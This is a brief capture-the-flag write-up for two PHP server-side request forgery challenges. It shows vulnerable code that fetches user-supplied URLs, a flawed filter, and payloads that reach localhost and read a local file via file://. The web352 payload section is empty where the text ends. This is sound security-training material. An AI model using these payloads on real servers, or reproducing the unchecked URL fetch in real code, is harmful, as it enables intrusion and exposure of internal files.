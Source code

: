 ## web351

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
```

payload

```
127.0.0.1/flag.php
localhost/flag.php
file:///var/www/html/flag.php
```

## web352

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker'); 
}
```

必须http开头就行了

payload
